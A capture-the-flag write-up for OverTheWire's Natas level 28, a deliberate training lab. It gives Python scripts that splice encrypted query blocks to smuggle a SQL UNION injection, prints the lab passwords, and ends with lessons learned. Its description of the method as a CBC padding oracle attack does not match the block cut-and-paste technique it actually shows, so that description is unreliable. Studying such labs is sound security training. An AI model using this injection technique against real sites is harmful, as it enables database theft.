 # Natas CTF Solutions  

## Natas Level 28  

### 🌐 **Challenge Description**  
Natas teaches the basics of server-side web security. Each level consists of a website located at:  
👉 `http://natasX.natas.labs.overthewire.org` (where **X** is the level number).  

---

### 🎯 **Goal**  
- Exploit a **CBC Padding Oracle Attack** to bypass input sanitization and retrieve the password.  

---

## 🚀 **Solution**  

### **Step 1: Open the URL**  
Visit:  
```  
http://natas28.natas.labs.overthewire.org  
```  

---

### **Step 2: Enter Login Credentials**  
- **Username:** `natas28`  
- **Password:** Use the password from Natas Level 27:  
```
1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj
```  

![Home_Page](https://github.com/user-attachments/assets/d5070f95-378c-400d-bd58-ece3131fe9b8)

---

### **Step 3: Analyze the Challenge**  
- No source code is provided.  
- When searching for a query, the URL changes, containing a **base64-encoded string**:  
```
http://natas28.natas.labs.overthewire.org/search.php?query=G%2BglEae6W...
```  
- Decoding this gives a binary string, indicating that the query is **encrypted** using **AES in CBC mode**.
- If you modify the URL it throws error like below :
- 
![Error](https://github.com/user-attachments/assets/6e12fff4-6b01-4013-a72f-93fea2e66cee)

---

### **Step 4: Explore the Encryption Pattern**  
- AES block size = **16 bytes**.  
- When you send different inputs, the encrypted output pattern changes based on block alignment.  
- Example payload testing in Python:  

```python
import requests
import urllib

url = "http://natas28.natas.labs.overthewire.org"
s = requests.Session()
s.auth = ('natas28', '1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj')

sample = "a"

while len(sample) < 16:
    data = {'query': sample}
    r = s.post(url, data=data)
    cipher = r.url.split('=')[1]
    cipher = urllib.parse.unquote(cipher)
    print("[*] %d chars.\t| %s" % (len(sample), cipher))
    sample += 'a'
```

- This script identifies how the encryption pattern shifts after every 16 characters (AES block size).  
- The first block remains the same, the second block changes at character 9.  

![Block](https://github.com/user-attachments/assets/76a0b1c2-c308-4922-a321-dd780c7d3571)
![Block](https://github.com/user-attachments/assets/f9b05e5b-30a5-4181-b976-42f25ed784b5)

---

### **Step 5: Create SQL Injection Payload**  
1. To bypass input sanitization and overflow the block boundary, create a specially crafted payload:  
   - **Block 1:** 9 spaces + `'`  
   - **Block 2:** `UNION ALL SELECT password FROM users;#`  

2. Code to inject the payload:  
```python
import requests
import urllib
import base64

url = "http://natas28.natas.labs.overthewire.org"
s = requests.Session()
s.auth = ('natas28', '1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj')

# Step 1: Generate header and footer
data = {'query': 10 * ' '}
r = s.post(url, data=data)
baseline = urllib.parse.unquote(r.url.split('=')[1])
baseline = base64.b64decode(baseline.encode('utf-8'))
header = baseline[:48]
footer = baseline[48:]

# Step 2: Create SQLi payload
sqli = 9 * " " + "' UNION ALL SELECT password FROM users;#"
data = {'query': sqli}
r = s.post(url, data=data)
exploit = urllib.parse.unquote(r.url.split('=')[1])
exploit = base64.b64decode(exploit.encode('utf-8'))

# Step 3: Calculate block size
nblocks = len(sqli) - 10
while nblocks % 16 != 0:
    nblocks += 1 
nblocks = int(nblocks / 16)

# Step 4: Craft final ciphertext
final = header + exploit[48:(48 + 16 * nblocks)] + footer
final_ciphertext = base64.b64encode(final)
search_url = "http://natas28.natas.labs.overthewire.org/search.php"
resp = s.get(search_url, params={"query": final_ciphertext})

# Step 5: Print result
print(resp.text)
```

---

### **Step 6: Result**  
If successful, the output will reveal the password for the next level:  
```  
The password for natas29 is: 31F4j3Qi2PnuhIZQokxXk1L3QT9Cppns  
```

![Password](https://github.com/user-attachments/assets/12ab9094-df86-4d84-8884-6c8f235f181e)

---

### **✅ Password for Natas Level 29**  
```
31F4j3Qi2PnuhIZQokxXk1L3QT9Cppns
```

---

## 💡 **Lessons Learned**  
✔️ **Block Ciphers:** AES operates in fixed-sized blocks (16 bytes).  
✔️ **CBC Mode:** Cipher Block Chaining (CBC) vulnerabilities can lead to data leakage.  
✔️ **Padding Oracle:** Improper padding or escaping can be exploited to inject malicious queries.  
✔️ **SQL Injection:** By overflowing the first block and modifying the second block, you can manipulate the query.  

---

## 🖼️ **Screenshots**  
| Step | Screenshot |  
|------|------------|  
| Step 4 – Pattern Discovery | ![Block](https://github.com/user-attachments/assets/f9b05e5b-30a5-4181-b976-42f25ed784b5) |  
| Step 6 – Found Password | ![Password](https://github.com/user-attachments/assets/12ab9094-df86-4d84-8884-6c8f235f181e) |  

---

## 🎯 **Next Level**  
Use the password to access **Natas Level 29**:  
👉 [http://natas29.natas.labs.overthewire.org](http://natas29.natas.labs.overthewire.org)  

---
